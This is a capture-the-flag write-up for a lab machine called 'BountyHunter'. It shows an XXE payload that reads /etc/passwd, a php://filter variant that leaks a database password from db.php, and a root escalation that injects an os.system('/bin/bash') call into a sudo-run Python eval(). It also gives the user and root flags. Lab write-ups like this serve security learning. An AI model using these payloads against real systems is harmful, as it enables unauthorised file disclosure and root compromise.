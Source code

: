 ## **BOUNTY HOUNTER**



![image-20210730010508342](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730010508342.png)

![image-20210730010535743](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730010535743.png)



Base64 decode

 ```
 <?xml  version="1.0" encoding="ISO-8859-1"?>
 		<bugreport>
 		<title>test</title>
 		<cwe>test</cwe>
 		<cvss>test</cvss>
 		<reward6É•Ý…É�'Vw&W'C`
 ```

we have to URL decoded first and the base64 decode

**XXE payload**

Create a new **ENTITY** called xxe, **SYSTEM** is a keyword that let the XML parser know that the ENTITY type is **EXTERNAL**

````
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1</reward>
		</bugreport>

````

Final PoC with URL and base64 encoded

```
data= PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4meHhlOzwvdGl0bGU%2BCgkJPGN3ZT5UZXN0PC9jd2U%2BCgkJPGN2c3M%2BMTIzPC9jdnNzPgoJCTxyZXdhcmQ%2BMTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

*Response:*

![image-20210727231428484](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210727231428484.png)

I tried to find the id_rsa of the user **developemt** to access the **/etc/shadow**, to access the db.conf/ing and the db.php but all was a dead end.

They to access the db.php was by filter base64

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

![image-20210730010636672](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730010636672.png)

We got a base64 string response

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

*decoded* 

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

![image-20210730010919988](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730010919988.png)

**user flag** 

```
31e6b08adeb1a6bd9289541bbe2ffe3f
```

## PrivEsc

![image-20210730012727472](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730012727472.png)

![image-20210730013101639](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730013101639.png)



```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```

Invalid ticket (/opt/skytrain_inc/invalid_tickets)

```
# Skytrain Inc
## Ticket to Bridgeport
__ticket code:__
**18+71+8**
##Issued: 2021/06/21
#End Ticket

```

Final PoC for root

```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**18+71 + __import__('os').system('/bin/bash')
```

![image-20210730171259804](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730171259804.png)

root flag 

```
8063331c64bab808a5f2513412641014
```



